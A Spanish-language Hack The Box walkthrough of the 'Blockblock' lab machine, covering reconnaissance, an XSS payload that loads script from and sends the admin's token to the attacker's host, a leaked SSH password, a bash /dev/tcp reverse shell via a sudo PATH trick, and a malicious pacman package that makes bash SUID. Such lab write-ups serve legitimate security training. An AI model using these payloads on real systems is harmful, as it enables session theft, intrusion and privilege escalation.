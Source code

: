 # Blockblock Escrito - Hack The Box

## Introducción

Blockblock es una máquina desafiante de Hack The Box que pone a prueba habilidades en reconocimiento, explotación web, escalada de privilegios y vulnerabilidades relacionadas con blockchain. Este escrito describe los pasos tomados para enumerar, explotar y, finalmente, obtener acceso root en la máquina.

---

## Reconocimiento Inicial

### Escaneo Nmap

El escaneo inicial de puertos revela tres puertos abiertos:

```bash
nmap -p- -sV -Pn 10.10.11.43 -v -sT --min-rate 5000
```

Salida:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.7 (protocol 2.0)
80/tcp   open  http    Werkzeug/3.0.3 Python/3.12.3
8545/tcp open  unknown
```

---

## Enumeración Web

### Registro y Explotación

Al acceder al servicio web en el puerto 80, registramos una cuenta de usuario y notamos la opción de reportar a otros usuarios. Esta funcionalidad parece ser vulnerable a XSS.

Creamos la siguiente carga útil en un archivo llamado `shat.js`:

```javascript
fetch('/api/info')
  .then(response => response.text())
  .then(text => {
    fetch('http://10.10.14.8:2000/log?' + new URLSearchParams({ log: btoa(text) }), {
      mode: 'cors' // Permitir solicitudes de origen cruzado
    });
  });
```

Luego, alojamos el archivo en un servidor HTTP de Python:

```bash
python3 -m http.server 2000
```

Insertamos la siguiente carga útil XSS en el campo "Report User":

```html
<img src="x" onerror="var script=document.createElement('script');script.src='http://10.10.14.8:2000/shat.js';document.head.appendChild(script);">
```

Cuando el administrador procesa el reporte, se envía una solicitud que contiene información sensible a nuestro servidor. La solicitud interceptada luce así:

```
GET /log?log=eyJyb2xlIjoiYWRtaW4iLCJ0b2tlbiI6ImV5SmhiR2NpT2lKSVV6STFOaUlz...
```

### Decodificación del Token del Administrador

Extraemos la carga útil codificada en Base64 y la decodificamos:

```bash
echo "eyJyb2xlIjoiYWRtaW4iLCJ0b2tlbiI6ImV5..." | base64 -d
```

Salida:

```json
{"role":"admin","token":"<JWT_TOKEN>","username":"admin"}
```

Modificamos la cookie de sesión con el token de administrador extraído, obteniendo acceso a funciones exclusivas de administrador.

---

## Interacción con Blockchain

### Interceptando Solicitudes

Usando Burp Suite, interceptamos solicitudes API realizadas desde el panel de administrador. Identificamos la siguiente llamada JSON-RPC:

```json
{
  "jsonrpc": "2.0",
  "method": "eth_getBalance",
  "params": ["0x38D681F08C24b3F6A945886Ad3F98f856cc6F2f8", "latest"],
  "id": 1
}
```

Para recopilar información adicional, creamos una nueva solicitud para obtener un bloque por número:

```json
{
  "jsonrpc": "2.0",
  "method": "eth_getBlockByNumber",
  "params": [
    "0x10d4f",
    true
  ],
  "id": 1
}
```

La respuesta contiene datos sensibles. Decodificar el valor hexadecimal revela:

```
keira//SomedayBitCoinWillCollapse
```

Esta es la contraseña SSH para el usuario `keira`.

---

## Acceso de Usuario

### Acceso SSH

Usando las credenciales obtenidas:

```bash
ssh keira@10.10.11.43
Password: SomedayBitCoinWillCollapse
```

---

## Escalada de Privilegios a Paul

### Explotación de Vulnerabilidad PATH

Observamos que `keira` puede ejecutar un script con permisos de `paul`:

```bash
sudo -u paul PATH=/tmp/rev:$PATH /home/paul/.foundry/bin/forge completions bash
```

Preparamos una carga útil de shell reverso:

```bash
mkdir -p /tmp/rev
cat > /tmp/rev/git << EOF
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1
EOF
chmod +x /tmp/rev/git
```

Configuramos un listener:

```bash
nc -nlvp <PORT>
```

Ejecutar el comando proporciona un shell como `paul`.

---

## Escalada de Privilegios a Root

### Abuso de Instalación de Paquetes

Creamos un paquete malicioso de Arch Linux para modificar los permisos de bash:

```bash
cd /dev/shm
cat > PKGBUILD << EOF
pkgname=exp
pkgver=1.0
pkgrel=1
arch=('any')
install=exp.install
EOF

echo "post_install() { chmod 4777 /bin/bash; }" > exp.install
makepkg -s
sudo pacman -U *.zst --noconfirm
```

Después de la instalación, `bash` obtiene permisos SUID. Abrimos un shell como root:

```bash
bash -p
```

---

## Conclusión

Blockblock pone a prueba una amplia gama de habilidades, desde la explotación XSS y manipulación de tokens hasta la interacción con la API de blockchain y la escalada de privilegios utilizando técnicas creativas. El recorrido por esta máquina resalta la importancia de una enumeración exhaustiva y la explotación de vulnerabilidades en todos los niveles.

---

*¡Feliz hacking!*
